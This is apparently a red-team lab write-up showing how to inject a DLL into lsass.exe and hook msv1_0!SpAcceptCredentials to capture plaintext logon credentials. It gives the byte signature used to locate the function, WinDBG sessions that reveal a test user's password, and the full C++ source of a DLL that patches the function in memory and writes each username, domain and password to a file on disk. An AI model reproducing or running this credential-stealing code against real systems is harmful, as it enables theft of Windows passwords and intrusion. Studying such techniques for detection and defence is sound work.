




# Intercepting Logon Credentials by Hooking msv1\_0!SpAcceptCredentials

This lab was inspired by [@\_xpn\_](https://twitter.com/_xpn_) and his great post [https://blog.xpnsec.com/exploring-mimikatz-part-2/](https://blog.xpnsec.com/exploring-mimikatz-part-2/) - definitely go read it if you haven't.

In this lab I am going to write a simple DLL that, when injected into lsass.exe, will install a hook for `msv1_0.SpAcceptCredentials` routine, intercept logon credentials and write them out to disk.

The purpose of this lab was for me to play around with:

* API hooking + intercepting logon credentials
* Programatically searching process memory space for byte patterns
* Ghidra / WinDBG


Not an OPSEC safe technique. Can be flagged for at least the following:

* LSASS loading unusual DLLs
* `WriteProcessMemory` API usage


## Overview

Below is a high level overview of the lab and technique implementation:

* LSASS has the [`MSV1_0.DLL`](https://docs.microsoft.com/en-us/windows/win32/secauthn/msv1-0-authentication-package) Authentication Package module loaded in its memory space
* MSV1\_0.dll is responsible for handling interactive logons
* `SpAcceptCredentials` inside MSV1\_0.dll is called by the system when a user successfully authenticates interactively \(i.e logon types 2, 10\)
* `SpAcceptCredentials` is passed clear text credentials
* If we can hook the `SpAcceptCredentials`, we can intercept those credentials
* `SpAcceptCredentials` is not an exported function in the MSV1\_0.dll, so we cannot use `GetProcAddress` to find its location in lsass process memory
* In order to find `SpAcceptCredentials` in memory, we will need to: 
  * signature it
  * scan lsass.exe memory space \(actually, for simplicity, just the range of `msv1_0.baseOfImage - msv1_0.sizeOfImage`\) for that signature
* Once `SpAcceptCredentials` signature is found, we will hook it by redirecting the original `SpAcceptCredentials` to our rogue function `hookedSpAccecptedCredentials`
* `hookedSpAccecptedCredentials`, once called, will:
  1. Intercept the logon credentials and write them out to disk
  2. Unhook `SpAcceptCredentials`, so that the original `SpAcceptCredentials` can be called later, so that a user can successfully authenticate and get its logon session created without crashing lsass.exe
  3. Reinstall the hook `hookedSpAccecptedCredentials` by starting a new thread that will execute with a delay of a couple of seconds. Delay is there to allow for the original `SpAcceptCredentials` to finish executing before it gets patched again, otherwise we would end up in a never ending cycle where `SpAcceptCredentials` would be jump to `hookedSpAccecptedCredentials` and `hookedSpAccecptedCredentials` would call `SpAcceptCredentials` as required in the step 4
  4. Call the original `SpAcceptCredentials` with intercepted credentials so that the system can complete the user authentication / logon session creation successfully

## Loading msv1\_0 Debugging Symbols

First of, let's see if we can hit the breakpoint on `msv1_0!SpAcceptCredentials`. For this, let's jump WinDBG and sort load the symbols for msv1\_0 module if they are missing.

Let's find the `EPROCESS` structure for the lsass.exe:

```text
!process 0 0 lsass.exe
```


We can now switch the WinDBG to lsass.exe process's context:

```text
.process /i /p /r ffffda8291281080
```


Listing modules loaded by lsass with command `lm` shows that we do not have symbols for msv1\_0.dll loaded:


...although the module itself is loaded:


Let's load the missing symbols:

```text
.reload /f /i msv1_0.dll
lm
```

We can confirm the symbols are now loaded:


Let's now set a breakpoint for `msv1_0!SpAcceptCredentials`:

```text
bp msv1_0!SpAcceptCredentials
```


Finally, let's see if we can hit the breakpoint by trying to authenticate for a new logon session with a `runas` command:



While we are at it, let's take a look at the start of the `msv1_0!SpAcceptCredentials` routine before we patch it later - we will be replacing the first 12 bytes \(mov rax + 8 byte address to hookedSpAccecptedCredentials routine + jmp rax\) of this routine with a jump to our `hookedSpAccecptedCredentials` routine, that will be intercepting any new credentials passed to it:


## Inspecting `SpAcceptCredentials` Arguments

Once the breakpoint is hit, we can inspect what arguments the `SpAcceptCredentials` was called with.

Considering that we know the following:

* On x64, Win APIs use a `fastcall` calling convention - the first 4 function arguments are passed via registers
* Prototype of the [`SpAcceptCredentials`](https://docs.microsoft.com/en-us/windows/win32/api/ntsecpkg/nc-ntsecpkg-spacceptcredentialsfn) - it accepts 4 arguments
* Members of the [~~`PSECPKG_PRIMARY_CRED`~~](https://docs.microsoft.com/en-us/windows/win32/api/ntsecpkg/ns-ntsecpkg-secpkg_primary_cred) structure. We are interested in the following:
  * Password - contains a plaintext password
  * Domain name
  * DownLevelName - user name

...we can now inspect the values and structures passed as shown below: 


Note how we can identify the username `spotless`, domain name - `WS02` \(my local machine name in this case\) and the password in plaintext `123456`.

```erlang
// db r8; dS r8+8; dS r8+8+10; dS r8+8+10+10

msv1_0!SpAcceptCredentials:
0033:00007ffb`95255330 48895c2408      mov     qword ptr [rsp+8],rbx

kd> db r8
0000004b`c507dff0  03 dd 28 00 00 00 00 00-10 00 10 00 00 00 00 00  ..(.............
0000004b`c507e000  20 7a 8f 38 5d 01 00 00-08 00 08 00 00 00 00 00   z.8]...........
0000004b`c507e010  00 7e 8f 38 5d 01 00 00-0c 00 0c 00 00 00 00 00  .~.8]...........
0000004b`c507e020  b0 79 8f 38 5d 01 00 00-00 00 00 00 00 00 00 00  .y.8]...........
0000004b`c507e030  00 00 00 00 00 00 00 00-c0 a0 8e 38 5d 01 00 00  ...........8]...
0000004b`c507e040  01 00 00 0a 00 00 00 00-00 00 00 00 00 00 00 00  ................
0000004b`c507e050  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
0000004b`c507e060  00 00 00 00 00 00 00 00-08 00 08 00 00 00 00 00  ................

kd> dS r8+8
0000015d`388f7a20  "spotless"

kd> dS r8+8+10
0000015d`388f7e00  "WS02"

kd> dS r8+8+10+10
0000015d`388f79b0  "123456"
```

Additionally, below shows that the value contained in the register `r8` holds a new logon session id that was created as part of a successful authentication via `runas` command:


## Signaturing `SpAcceptCredentials` 

As mentioned earlier, the `SpAcceptCredentials`is not exported in the `msv1_0` DLL, so we cannot use Windows APIs to resolve its address in memory, therefore we need to find it ourselves by scanning the lsass process memory space.

In order to do it, we need to find a sequence of bytes in the `SpAcceptCredentials` routine, that uniquely identifies it. Per [mimikatz's](https://github.com/gentilkiwi/mimikatz) source code, we can use the following bytes for our signature:

```c
48 83 ec 20 49 8b d9 49 8b f8 8b f1 48
```


My msv1\_0.dll is from x64 Windows 10, 1809


If we check the `msv1_0.dll` in Ghidra, we indeed find our signature - 16 bytes into the `SpAcceptCredentials` function start:


We can also confirm the bytes are present when `SpAcceptCredentials` breakpoint is hit, as expected:


We will pass this signature later to our memory hunting routine `GetPatternMemoryAddress(..., signature, ...)` in our DLL, that will be injected into the lsass where it will identify the memory address of `SpAcceptCredentials` routine inside the lsass.exe process:


## HUH - Hooking: Under the Hood

Before we start looking under the hood of lsass.exe, there are a couple of other things to note.

Our compiled and injected DLL will immediately call `installSpAccecptedCredentialsHook` once lsass.exe loads our malicious DLL with `LoadLibrary`:


`installSpAccecptedCredentialsHook` will:

* wait for 5 seconds before proceeding - as explained earlier - this allows the original `SpAccecptedCredentials` to be called and finish its execution, before it gets patched again
* find `SpAccecptedCredentials` memory address based on the signature discussed earlier - lines 85-86 in the below screenshot
* read and store the first 12 bytes of `SpAccecptedCredentials` in memory - these bytes will be used to restore the function to its original state / unpatch it - line 89
* overwrite the first 12 bytes of `SpAccecptedCredentials` with a jump to our rogue function `hookedSpAccecptedCredentials` that will intercept any new user logon credentials - line 92-95


Assuming we've compiled the DLL, let's inject it into lsass. I will simply inject it with Process Hacker:



Let's now have a quick look inside the lsass.exe via WinDBG when `msv1_0!SpAcceptCredentials` is called. 

If we break into lsass, we will see that our module `memssp-dll.dll` is now loaded - line 23:

```erlang
// switch to lsass.exe process context
.process /i /p /r ffffab8f6ae0c080

// See lsass loaded modules through the PEB
!peb

kd> !peb
PEB at 0000004dbca27000
    InheritedAddressSpace:    No
    ReadImageFileExecOptions: No
    BeingDebugged:            No
    ImageBaseAddress:         00007ff60cfe0000
    NtGlobalFlag:             0
    NtGlobalFlag2:            0
    Ldr                       00007ff9e09e53c0
    Ldr.Initialized:          Yes
    Ldr.InInitializationOrderModuleList: 00000164b4403910 . 00000164b4afd140
    Ldr.InLoadOrderModuleList:           00000164b4403a80 . 00000164b4afd120
    Ldr.InMemoryOrderModuleList:         00000164b4403a90 . 00000164b4afd130
                    Base TimeStamp                     Module
            7ff60cfe0000 d5aefa73 Aug 09 06:19:47 2083 C:\WINDOWS\system32\lsass.exe
            <...cut...>
            7ff9cb390000 5e2cbfd1 Jan 25 22:23:13 2020 \\VBOXSVR\Labs\CreateMiniDump\CreateMiniDump\x64\Release\memssp-dll.dll
    SubSystemData:     0000000000000000
    ProcessHeap:       00000164b4290000
    ProcessParameters: 00000164b4403090
    CurrentDirectory:  'C:\WINDOWS\system32\'
    WindowTitle:  'C:\WINDOWS\system32\lsass.exe'
```


If we disassemble `msv1_0!SpAcceptCredentials`, we will notice that the first few bytes of the routine are now different, compared to those we saw earlier before the DLL injection - this confirms the hook was installed:


The first instructions of the hooked function now are:


These instructions came from the below code in our DLL. 

`mov rax` instruction, where rax is the address of our `hookedSpAccecptedCredentials`:


and `jmp rax`:


Now, if we remember that our malicious module's `memssp-dll.dll` base address was `7FF9CB391000h` and its size was `5e2cbfd1`, it means that our module is mapped in the range `[7FF9CB391000h, 7FF9CB391000+5e2cbfd1]` =&gt; ``[0x7FF9CB391000, 0x00007ffa`2965cfd1]``:


This means that `7FF9CB391000h` as seen in the first instruction of the hooked `SpAcceptCredentials` routine, is part of our malicious module since it falls in the range ``[0x7FF9CB391000, 0x00007ffa`2965cfd1]``:


Moving forward - note that after the trampoline to our rogue function, I've set the breakpoint on instruction `rbx, r9` at `7ff9b6955344`:


If we hit the breakpoint `msv1_0!SpAcceptCredentials` and and continue running, we immediately hit that second breakpoint at `7ff9b6955344`, however, note that our trampoline `mov rax, jmp rax` is now gone:



This is because `hookedSpAccecptedCredentials` \(previously stored in rax\) unhooked `SpAccecptedCredentials` by writing back 12 original bytes of `SpAccecptedCredentials` before it was hooked, to the start of `SpAccecptedCredentials` \(orange\) and redirected the code back to the start of `SpAccecptedCredentials` \(lime\), so that a new user logon session can be created:


Highlighted in blue is the code that actually intercepts the credentials and writes them to disk. Code in white is responsible for re-hooking the `SpAccecptedCredentials` in a new delayed thread, so that the `originalSpAcceptCredentials` can finish executing without crashing the system.

## Demo

Below shows how user `spotless` on a machine `WS02` authenticates successfully and its credentials are written to `c:\temp\credentials.txt`:



Note that msv1\_0 exports a function `LsaApLogonUserEx2` that we could have hooked to intercept credentials since it is also passed a structure `PSECPKG_PRIMARY_CRED` when a user  attempts to authenticate. This lab, however, was focused on the exercise of finding the required function address by scanning the target process memory rather than resolving it via Windows APIs:


## SymFromName

It's possible to resolve the `SpAcceptCredentials` function address if we have access to debugging symbols like so:

```cpp
HMODULE targetModule = LoadLibraryA("msv1_0.dll");
PCSTR symbolName = "msv1_0!SpAcceptCredentials";
ULONG64 buffer[(sizeof(SYMBOL_INFO) + MAX_SYM_NAME * sizeof(TCHAR) + sizeof(ULONG64) - 1) /	sizeof(ULONG64)] = {};
PSYMBOL_INFO symbol = (PSYMBOL_INFO)buffer;
symbol->SizeOfStruct = sizeof(SYMBOL_INFO);
symbol->MaxNameLen = MAX_SYM_NAME;
SymSetOptions(SYMOPT_EXACT_SYMBOLS);
SymInitialize(GetCurrentProcess(), "C:\\programdata\\dbg\\sym", TRUE);
SymFromName(GetCurrentProcess(), symbolName, symbol);
```


## Code


```cpp
#include "stdafx.h"
#include <iostream>
#include <Windows.h>
#define SECURITY_WIN32
#include <Sspi.h>
#include <ntsecapi.h>
#include <ntsecpkg.h>

using _SpAcceptCredentials = NTSTATUS(NTAPI *)(SECURITY_LOGON_TYPE LogonType, PUNICODE_STRING AccountName, PSECPKG_PRIMARY_CRED PrimaryCredentials, PSECPKG_SUPPLEMENTAL_CRED SupplementalCredentials);
char startOfPatternSpAccecptedCredentials[] = { 0x48, 0x83, 0xec, 0x20, 0x49, 0x8b, 0xd9, 0x49, 0x8b, 0xf8, 0x8b, 0xf1, 0x48 };
char bytesToPatchSpAccecptedCredentials[12] = { 0x48, 0xb8 };
PVOID patternStartAddressOfSpAccecptedCredentials = NULL;
PVOID addressOfSpAcceptCredentials = NULL;
char bytesToRestoreSpAccecptedCredentials[12] = { 0 };
void installSpAccecptedCredentialsHook();

PVOID GetPatternMemoryAddress(char *startAddress, char *pattern, SIZE_T patternSize, SIZE_T searchBytes)
{
	unsigned int index = 0;
	PVOID patternAddress = NULL;
	char
		*patternByte = 0,
		*memoryByte = 0;
	do
	{
		if (startAddress[index] == pattern[0])
		{
			for (size_t i = 1; i < patternSize; i++)
			{
				*(char *)&patternByte = pattern[i];
				*(char *)&memoryByte = startAddress[index + i];

				if (patternByte != memoryByte)
				{
					break;
				}

				if (i == patternSize - 1)
				{
					patternAddress = (LPVOID)(&startAddress[index]);
					return patternAddress;
				}
			}
		}
		++index;
	} while (index < searchBytes);

	return (PVOID)NULL;
}

NTSTATUS NTAPI hookedSpAccecptedCredentials(SECURITY_LOGON_TYPE LogonType, PUNICODE_STRING AccountName, PSECPKG_PRIMARY_CRED PrimaryCredentials, PSECPKG_SUPPLEMENTAL_CRED SupplementalCredentials)
{
	DWORD bytesWritten = 0;
	HANDLE file = CreateFileW(L"c:\\temp\\credentials.txt", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, NULL, NULL);
	_SpAcceptCredentials originalSpAcceptCredentials = (_SpAcceptCredentials)addressOfSpAcceptCredentials;

	// intercept credentials and write them to disk
	WriteFile(file, PrimaryCredentials->DownlevelName.Buffer, PrimaryCredentials->DownlevelName.Length, &bytesWritten, NULL);
	WriteFile(file, "@", 2, &bytesWritten, NULL);
	WriteFile(file, PrimaryCredentials->DomainName.Buffer, PrimaryCredentials->DomainName.Length, &bytesWritten, NULL);
	WriteFile(file, ":", 2, &bytesWritten, NULL);
	WriteFile(file, PrimaryCredentials->Password.Buffer, PrimaryCredentials->Password.Length, &bytesWritten, NULL);
	CloseHandle(file);

	// unhook msv1_0!SpAcceptCredentials
	WriteProcessMemory(GetCurrentProcess(), addressOfSpAcceptCredentials, bytesToRestoreSpAccecptedCredentials, sizeof(bytesToRestoreSpAccecptedCredentials), NULL);

	// hook msv1_0!SpAcceptCredentials again with a delay so that originalSpAcceptCredentials() can execute
	CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)installSpAccecptedCredentialsHook, NULL, NULL, NULL);
	
	// call original msv1_0!SpAcceptCredentials
	return originalSpAcceptCredentials(LogonType, AccountName, PrimaryCredentials, SupplementalCredentials);
}

void installSpAccecptedCredentialsHook()
{
	Sleep(1000 * 5);
	HMODULE targetModule = LoadLibraryA("msv1_0.dll");
	DWORD bytesWritten = 0;

	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)targetModule;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)targetModule + dosHeader->e_lfanew);
	SIZE_T sizeOfImage = ntHeader->OptionalHeader.SizeOfImage;

	// find address of msv1_0!SpAcceptCredentials
	patternStartAddressOfSpAccecptedCredentials = (LPVOID)(DWORD_PTR)GetPatternMemoryAddress((char *)targetModule, startOfPatternSpAccecptedCredentials, sizeof(startOfPatternSpAccecptedCredentials), sizeOfImage);
	addressOfSpAcceptCredentials = (LPVOID)((DWORD_PTR)patternStartAddressOfSpAccecptedCredentials - 16);

	// store first sizeof(bytesToRestoreSpAccecptedCredentials) bytes of the original msv1_0!SpAcceptCredentials routine
	std::memcpy(bytesToRestoreSpAccecptedCredentials, addressOfSpAcceptCredentials, sizeof(bytesToRestoreSpAccecptedCredentials));
	
	// hook msv1_0!SpAcceptCredentials with "mov rax, hookedSpAccecptedCredentials; jmp rax";
	DWORD_PTR addressBytesOfhookedSpAccecptedCredentials = (DWORD_PTR)&hookedSpAccecptedCredentials;
	std::memcpy(bytesToPatchSpAccecptedCredentials + 2, &addressBytesOfhookedSpAccecptedCredentials, sizeof(&addressBytesOfhookedSpAccecptedCredentials));
	std::memcpy(bytesToPatchSpAccecptedCredentials + 2 + sizeof(&addressBytesOfhookedSpAccecptedCredentials), (PVOID)&"\xff\xe0", 2);
	WriteProcessMemory(GetCurrentProcess(), addressOfSpAcceptCredentials, bytesToPatchSpAccecptedCredentials, sizeof(bytesToPatchSpAccecptedCredentials), (SIZE_T*)&bytesWritten);
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved)
{
	switch (ul_reason_for_call)
	{
		case DLL_PROCESS_ATTACH:
		{
			installSpAccecptedCredentialsHook();
		}
		case DLL_THREAD_ATTACH:
		case DLL_THREAD_DETACH:
		case DLL_PROCESS_DETACH:
			break;
	}
	return TRUE;
}
```


## References



